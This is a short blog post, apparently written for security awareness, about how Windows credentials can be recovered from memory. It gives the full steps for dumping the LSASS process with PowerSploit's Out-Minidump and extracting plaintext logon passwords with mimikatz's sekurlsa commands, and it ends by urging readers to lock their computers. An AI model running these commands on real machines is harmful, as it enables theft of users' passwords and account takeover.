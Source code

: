 ```yaml
---
layout: post
title: Your Windows passwords are vulnerable and hackable in less than 5 minutes
description: This is a simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
keywords: Windows passwords, logon password, LsaProtectMemory, LsaUnprotectMemory, lsass.exe, Windows vulnerability, mimikatz terminal, powershell script, out-minidump, minidump
tags: [Windows, PowerShell, Vulnerability, Encryption, Decryption]
comments: true
---
```


**Did you know that your Windows passwords are vulnerable and hackable in less than 5 minutes?**

Yep, even in Windows 10, the method is still working nicely. **The method is not new at all.** So, let me show how you can reproduce it by using a simple exploitation tool and a PowerShell script. **Anyone can perform this hacking when you left your computer unlocked.** I'm not really going to explain the details, just go straight to the steps. Google Search is on your fingertips if you are keen to explore more.

### Getting started

First, you need to download or get this tool called [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) (just get the binary package, e.g. **mimikatz_trunk.zip**) and this PowerShell script [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) by Matthew Graeber. Let's start!

### Using PowerShell to perform memory dump

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script, **Out-Minidump.ps1**. The flow of cmdlet will look like this:

![PowerShell cmdlet](http://i.imgur.com/1lQnyhZ.png)

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### Using mimikatz terminal program to view the passwords

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

![mimikatz MINIDUMP](http://i.imgur.com/OPA0g0w.png)

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

![mimikatz logonPasswords](http://i.imgur.com/nWPZUIR.jpg)

Tadaa... Now I can see my actual Microsoft Account username and password in **a plain text**. As you imagine, most of people nowadays are still using the same password for almost everything. _Too bad.._ So, I expected you can picture all the consequences with this vulnerability...

### The existing vulnerability info

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

### The bottom line

You will be safe as long as you always lock your computer when you're away. For more explanations and security advices, you might want to check the [original article here](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes). This short article is just to remind me or anyone else to always be careful in whatever we do especially with anything to do with our passwords and personal credential information. No system is perfect! DON'T LEAVE YOUR COMPUTER UNLOCKED.
